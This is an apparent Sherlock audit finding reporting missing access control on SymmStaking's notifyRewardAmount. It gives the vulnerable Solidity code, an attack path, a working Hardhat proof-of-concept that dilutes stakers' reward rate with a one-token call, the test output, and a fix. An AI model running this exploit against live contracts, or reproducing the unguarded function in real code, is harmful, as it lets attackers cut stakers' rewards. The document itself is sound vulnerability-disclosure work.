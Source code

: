 Great Blood Mandrill

Medium

# Missing Access Control on notifyRewardAmount Function Allows Reward Rate Manipulation

### Summary

Missing access control on the notifyRewardAmount function will cause a significant reduction in reward payouts for stakers as any user can dilute the reward rate by calling the function with minimal token amounts.

### Root Cause

In [SymmStaking.sol](https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/d7cf7fc96af1c25b53a7b500a98b411cd018c0d3/token/contracts/staking/SymmStaking.sol#L275) the `notifyRewardAmount` function lacks the onlyRole(REWARD_MANAGER_ROLE) access control modifier, allowing any external user to call this function and manipulate reward rates.
```solidity
function notifyRewardAmount(address[] calldata tokens, uint256[] calldata amounts) external nonReentrant whenNotPaused {
    _updateRewardsStates(address(0));
    if (tokens.length != amounts.length) revert ArraysMismatched();

    uint256 len = tokens.length;
    for (uint256 i = 0; i < len; i++) {
        address token = tokens[i];
        uint256 amount = amounts[i];

        if (amount == 0) continue;
        if (!isRewardToken[token]) revert TokenNotWhitelisted(token);

        IERC20(token).safeTransferFrom(msg.sender, address(this), amount);
        pendingRewards[token] += amount;
        _addRewardsForToken(token, amount);
    }
    emit RewardNotified(tokens, amounts);
}
```
The [_addRewardsForToken](https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/d7cf7fc96af1c25b53a7b500a98b411cd018c0d3/token/contracts/staking/SymmStaking.sol#L366) function recalculates the reward rate and resets the reward period even when a very small amount is added, making it particularly vulnerable to manipulation:
```solidity
function _addRewardsForToken(address token, uint256 amount) internal {
    TokenRewardState storage state = rewardState[token];

    if (block.timestamp >= state.periodFinish) {
        state.rate = amount / state.duration;
    } else {
        uint256 remaining = state.periodFinish - block.timestamp;
        uint256 leftover = remaining * state.rate;
        state.rate = (amount + leftover) / state.duration; // @audit RATE CHANGED
    }

    state.lastUpdated = block.timestamp;
    state.periodFinish = block.timestamp + state.duration; // @audit PERIOD RESET
}
```

### Internal Pre-conditions

1. Admin needs at least whiteliste one reward token via configureRewardToken(token, true)


### External Pre-conditions

none

### Attack Path

1. Admin calls notifyRewardAmount with a legitimate reward amount (e.g., 6,048,000 tokens for a rate of 10 tokens/second)
2. User deposits tokens into the staking contract via the deposit function
3. After some time passes (e.g., 1 day), Attacker calls notifyRewardAmount with a minimal amount (e.g., 1 token)
4. This resets the distribution period to a full week but significantly dilutes the reward rate (e.g., from 10 to 8 tokens/second) as illustrated below with the POC
5. Attacker can repeat this process frequently to keep diluting rewards
6. When User claims rewards, they receive significantly less than expected at that time

### Impact

The staking users suffer an approximate loss of 20-30% of their expected rewards that should be getting at the same timestamp, each time the attack is executed. 
The attacker only needs to spend minimal amounts of reward tokens to execute this attack (as little as 1 token per manipulation).

This results in:

- Effective APY reduction of 20-30%
- Time value loss of rewards
- Predictability Issues: Users can't reliably predict their reward accrual rate, as any attacker can manipulate it

### PoC

```ts
		it("should be vulnerable to reward rate manipulation by non-admin users", async function () {
			// Get the reward duration first to ensure we scale rewards properly
			const rewardDuration = await symmStaking.DEFAULT_REWARDS_DURATION();
			console.log(`Reward duration is ${rewardDuration} seconds`);
			
			// Use a much larger reward amount to ensure the rate is not 0
			// For example, if duration is ~600,000 seconds (1 week), we use 6,000,000 tokens
			// This gives a rate of 10 tokens per second
			const rewardAmount = BigInt(rewardDuration) * BigInt(10);
			console.log(`Using reward amount of ${rewardAmount} tokens`);
			
			// Admin sets up the rewards
			await stakingToken.connect(admin).mint(admin.address, rewardAmount);
			await stakingToken.connect(admin).approve(await symmStaking.getAddress(), rewardAmount);
			await symmStaking.connect(admin).configureRewardToken(await stakingToken.getAddress(), true);
			await symmStaking.connect(admin).notifyRewardAmount([await stakingToken.getAddress()], [rewardAmount]);
			
			// Record initial reward rate
			const initialState = await symmStaking.rewardState(await stakingToken.getAddress());
			console.log(`Initial reward rate: ${initialState.rate} tokens per second`);
			
			// Verify the initial rate is greater than 0
			expect(initialState.rate).to.be.gt(0);
			
			// User deposits tokens
			const depositAmount = BigInt(rewardAmount) / BigInt(10); // 10% of the reward amount
			await stakingToken.connect(admin).mint(user1.address, depositAmount);
			await stakingToken.connect(user1).approve(await symmStaking.getAddress(), depositAmount);
			await symmStaking.connect(user1).deposit(depositAmount, user1.address);
			
			// Time passes - 1 day into the reward period
			await time.increase(86400); // 1 day
			
			// Calculate remaining rewards (approximately)
			const remainingRewardDuration = BigInt(rewardDuration) - BigInt(86400);
			const remainingRewards = BigInt(initialState.rate) * remainingRewardDuration;
			console.log(`Estimated remaining rewards: ${remainingRewards}`);
			
			// Attack with a small amount of rewards to manipulate the rate (this case with 1 token)
			const attackAmount = 1;
			console.log(`Attack amount: ${attackAmount}`);
			
			// User2 adds a small amount of rewards
			await stakingToken.connect(admin).mint(user2.address, attackAmount);
			await stakingToken.connect(user2).approve(await symmStaking.getAddress(), attackAmount);
			await symmStaking.connect(user2).notifyRewardAmount([await stakingToken.getAddress()], [attackAmount]);
			
			// Check manipulated state
			const attackState = await symmStaking.rewardState(await stakingToken.getAddress());
			console.log(`Manipulated reward rate: ${attackState.rate} tokens per second`);
			
			// Calculate rate reduction
			const rateReduction = initialState.rate - attackState.rate;
			console.log(`Rate reduction: ${rateReduction} tokens per second`);
			
			// Verify the manipulated rate is lower than the initial rate
			// Only run this check if the initial rate is greater than 0
			if (initialState.rate > 0) {
			  expect(attackState.rate).to.be.lt(initialState.rate);
			} else {
			  console.log("WARNING: Initial rate was 0, cannot verify rate reduction");
			}
			
			// Advance time to the end of what would have been the original period
			await time.increase(Number(rewardDuration));
			
			// User claims rewards
			const balanceBefore = await stakingToken.balanceOf(user1.address);
			await symmStaking.connect(user1).claimRewards();
			const balanceAfter = await stakingToken.balanceOf(user1.address);
			const actualRewards = balanceAfter - balanceBefore;
			
			console.log(`Actual rewards claimed: ${actualRewards} tokens`);
			
			// The vulnerability demonstration is complete - rate was manipulated
			console.log(`Demonstration complete - reward rate was successfully manipulated`);
		  });
```

Add this test into the describe block of Notify in [token/tests/symmStaking.behavior.ts](https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/d7cf7fc96af1c25b53a7b500a98b411cd018c0d3/token/tests/symmStaking.behavior.ts#L425)


------
Test results with
`npx hardhat test --grep "should be vulnerable to reward rate manipulation"`

SymmVesting Contract deployed at: 0x15BB2cc3Ea43ab2658F7AaecEb78A9d3769BE3cb
deploy:SymmStaking
SymmStaking Contract deployed at: 0xAE246E208ea35B3F23dE72b697D47044FC594D5F
Reward duration is 604800 seconds
Using reward amount of 6048000 tokens
Initial reward rate: 10 tokens per second
Estimated remaining rewards: 5184000
Attack amount: 1
Manipulated reward rate: 8 tokens per second
Rate reduction: 2 tokens per second
Actual rewards claimed: 5011237 tokens
Demonstration complete - reward rate was successfully manipulated

### Mitigation

Add the onlyRole(REWARD_MANAGER_ROLE) modifier to the notifyRewardAmount function:
```solidity
function notifyRewardAmount(address[] calldata tokens, uint256[] calldata amounts) 
    external 
    nonReentrant 
    whenNotPaused
    onlyRole(REWARD_MANAGER_ROLE)  // Add this modifier
{
    // existing code
}
```
This ensures that only authorized accounts can modify reward rates, preventing reward manipulation by unauthorized users.